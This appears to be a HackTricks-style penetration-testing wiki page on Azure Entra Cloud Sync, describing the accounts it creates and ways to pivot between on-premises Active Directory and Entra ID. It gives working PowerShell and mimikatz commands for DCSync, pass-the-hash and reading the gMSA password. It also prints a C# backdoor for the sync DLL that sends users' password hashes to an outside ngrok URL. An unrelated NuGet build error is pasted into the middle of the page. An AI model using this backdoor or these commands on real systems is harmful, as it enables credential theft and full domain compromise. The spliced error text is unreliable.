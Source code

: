 # Az - Cloud Sync

## Basic Information

**Cloud Sync** is basically the new way of Azure to **synchronize the users from AD into Entra ID**.

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync is a new offering from Microsoft designed to meet and accomplish your hybrid identity goals for synchronization of users, groups, and contacts to Microsoft Entra ID. It accomplishes this by using the Microsoft Entra cloud provisioning agent instead of the Microsoft Entra Connect application. However, it can be used alongside Microsoft Entra Connect Sync.

### Principals Generated

In order for this to work some principals are created in both Entra ID and the On-Premise directry:

- In Entra ID the user `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) is created with the role **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`). 

> [!WARNING]
> This role used to have a lot of privileged permissions and it could be used to [**escalate privileges even to global admin**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b). However, Microsoft decided to remove all the privileges of this role and assign it just a new one **`microsoft.directory/onPremisesSynchronization/standard/read`** which doesn't really allow to perform any privileged action (like modifying the password or atribbutes of a user or adding a new credential to a SP).

- In Entra ID also the group **`AAD DC Administrators`** is created without members or owners. This group is useful if [`Microsoft Entra Domain Services`](./az-domain-services.md) is used.

- In the AD, either the Service Account **`provAgentgMSA`** is created with a SamAcountName like **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), or a custom one with [**these permissions is needed**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account). Usually the default one is created.

> [!WARNING]
> Among other permissions the Service Account **`provAgentgMSA`** has DCSync permissions, allowing **anyone that compromises it to compromise the whole directory**. For more information about [DCSync check this](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html).

> [!NOTE]
> By default users of known privileged groups like Domain Admins with the attribute **`adminCount` to 1 are not synchronized** with Entra ID for security reasons. However, other users that are part of privileged groups without this attribute or that are assigned high privileges directly **can be synchronized**.

## Password Sychronization

The section is very similar to the one from:

[[az-connect-sync.md]]

- **Password hash synchronization** can be enabled so users will be able to **login into Entra ID using their passwords from AD**. Moreover, whenever a password is modified in AD, it'll be updated in Entra ID.
- **Password writeback** can also be enabled, allowing users to modify their password in Entra ID automatically synchronizing their password in the on-premise domain. But according to the [current docs](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback), for this is needed to use the Connect Agent, so take a look to the [Az Connect Sync section](./az-connect-sync.md) for more information.
- **Groups writeback**: This feature allows group memberships from Entra ID to be synchronized back to the on-premises AD. This means that if a user is added to a group in Entra ID, they will also be added to the corresponding group in AD.

## Pivoting

### AD --> Entra ID

- If the AD users are being synced from the AD to Entra ID, pivoting from AD to Entra ID is straightforward, just **compromise some user's password or change some user's password or create a new user and wait until it's synced into the Entra ID directory (usually only a few mins)**.

So you could for example
- Compromise the **`provAgentgMSA`** account, perform a DCSync attack, crack the password of some user and then use it to login into Entra ID.
- Just create a new user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.
- Modify the password of some user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.

To compromise the **`provAgentgMSA`** credentials:

```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

Now you could use the hash of the gMSA to perform a Pass-the-Hash attack against Entra ID using the `provAgentgMSA` account and maintain persistence being able to perform DCSync attacks against the AD.

For more information about how to compromise an Active Directory check:

[[https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html]]

> [!NOTE]
> Note that There isn't any way to give Azure or EntraID roles to synced users based on its attributes for example in the Cloud Sync configurations. However, in order to automatically grant permissions to synced users some **Entra ID groups from AD** might be given permissions so the synced users inside those groups also receive them or **dynamic groups might be used**, so always check for dynamic rules and potential ways to abuse them:

[[../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md]]

Regarding persistence [this blog post](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) suggest that it's possible to use [**dnSpy**](https://github.com/dnSpy/dnSpy) to backdoor the dll **`Microsoft.Online.Passwordsynchronisation.dll`** located in **`C:\Program Files\Microsoft Azure AD Sync\Bin`** that is used by the Cloud Sync agent to perform the password synchronization making it exfiltrate the password hashes of the users being synchronized to a remote server. The hashes are generated inside the class **`PasswordHashGenerator`** and the blog post suggest adding some code so the class looks like (note the `use System.Net` and the `WebClient` usage to exfiltrate the password hashes):

```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
	// Token: 0x0200003E RID: 62
	public class PasswordHashGenerator : ClearPasswordHashGenerator
	{
		// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
		public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
		{
			PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
			try
			{
				using (WebClient webClient = new WebClient())
				{
					webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
				}
			}
			catch (Exception)
			{
			}
			return new PasswordHashData
			{
				Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
				RawHash = passwordHashData.RawHash
			};
		}
	}
}
```

NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
  C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.

### Entra ID --> AD

- If **Password Writeback** is enabled, you could modify the password of some users from Entra ID and if you have access to the AD network, connect using them. For more info check the [Az Connect Sync section](./az-connect-sync.md) section for more information as the password writeback is configured using that agent.

- At this point in time Cloud Sync also allows **"Microsoft Entra ID to AD"**, but after too much time I found that it CANNOT synchronize EntraID users to AD and that it can only synchronize users from EntraID that were synchronized with the password hash and come from a domain that belong to the same domain forest as the domain we are synchronizing to as you can read in [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - These groups can only contain on-premises synchronized users and / or additional cloud created security groups.
> - The on-premises user accounts that are synchronized and are members of this cloud created security group, can be from the same domain or cross-domain, but they all must be from the same forest.

So the attack surface (and usefulness) of this service is greatly reduced as an attacker would need to compromise the initial AD from where the users are being synchronized in order to compromise a user in the other domain (and both must be in the same forest apparently).

### Enumeration

```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
  --method GET \
  --uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
  --headers "Content-Type=application/json"
```

